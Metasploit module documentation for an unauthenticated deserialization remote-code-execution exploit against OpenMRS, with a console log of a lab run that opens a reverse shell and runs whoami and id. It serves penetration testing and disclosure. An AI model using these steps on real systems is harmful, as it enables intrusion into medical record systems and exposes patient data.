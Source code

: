 ## Vulnerable Application

  OpenMRS is an open-source platform that supplies
  users with a customizable medical record system.

  There exists an object deserialization vulnerability
  in the `webservices.rest` module used in OpenMRS Platform
  for versions below `v2.24.0`. Unauthenticated remote code
  execution can be achieved by sending a malicious XML payload
  to a Rest API endpoint such as `/ws/rest/v1/concept`.

  Vulnerable versions of the software can be found [here](https://sourceforge.net/projects/openmrs/files/releases/).

  Tested on OpenMRS Platform `v2.1.2` and `v2.21` with Java
  8 and Java 9.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/openmrs_deserialization```
  4. Do: ```set TARGETURI <uri>```
  5. Do: ```set RHOSTS <ip>```
  6. Do: ```run```
  7. You should get a shell.

## Options

  **ForceExploit**

  Overrides the check result and runs the exploit.

## Scenarios

### Version of software and OS as applicable

  ```
  msf5 > use exploit/multi/http/openmrs_deserialization 
  msf5 exploit(multi/http/openmrs_deserialization) > set rhosts 192.168.37.168
  rhosts => 192.168.37.168
  msf5 exploit(multi/http/openmrs_deserialization) > set targeturi /openmrs-standalone
  targeturi => /openmrs-standalone
  msf5 exploit(multi/http/openmrs_deserialization) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/http/openmrs_deserialization) > check
  [*] 192.168.37.168:8081 - The target appears to be vulnerable. OpenMRS platform version: 2.1.2
  msf5 exploit(multi/http/openmrs_deserialization) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Target is running OpenMRS
  [*] Formatting payload
  [*] Sending payload...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo wKYK4x9ZOHJ37tm7;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket B
  [*] B: "wKYK4x9ZOHJ37tm7\r\n"
  [*] Matching...
  [*] A is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.168:45048) at 2019-11-21 14:13:09 -0600

  whoami
  space
  id
  uid=1000(space) gid=1000(space) groups=1000(space),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
  ```
